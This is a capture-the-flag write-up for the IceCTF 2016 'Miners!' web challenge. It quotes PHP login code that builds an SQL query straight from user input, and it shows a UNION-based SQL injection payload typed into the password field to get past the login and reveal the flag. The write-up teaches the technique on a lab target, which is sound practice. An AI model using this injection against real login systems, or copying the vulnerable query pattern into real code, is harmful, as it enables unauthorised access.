 # IceCTF 2016
# Miners!
######Web -- 65 points
## Description
The miners website has been working on adding a login portal so that all miners can get the flag, but they haven't made any accounts! However, your boss demands the flag now! Can you get in anyway? [miners.vuln.icec.tf](http://miners.vuln.icec.tf) 

## Solution
The authors of the miners site have conveniently included a link to the PHP code they use to validate logins. 

```php
<?php
include "config.php";
$con = mysqli_connect($MYSQL_HOST, $MYSQL_USER, $MYSQL_PASS, $MYSQL_DB);
$username = $_POST["username"];
$password = $_POST["password"];
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) !== 1) {
  echo "<h1>Login failed.</h1>";
  } else {
    echo "<h1>Logged in!</h1>";
	echo "<p>Your flag is: $FLAG</p>";
  }
?>
```

The site will let you in if the query returns 1 and only 1 record. 

The challenge description suggests that there are no valid users in the database, but we need it to return 1 record anyway. 

The SQL `UNION` keyword, will join two seperate SELECT queries together, provided that they both have the same number of fields. 

We can make the assumption that the users table has three fields, *user_id*, *username*, and *password*. 

If the string, `' UNION SELECT '1','2','3` is injected into the password field, the whole query becomes 
~~~
SELECT * FROM users WHERE username='' AND password='' UNION SELECT '1','2','3'
~~~

This gives us the flag, IceCTF{the_miners_union_is_a_strong_one}.

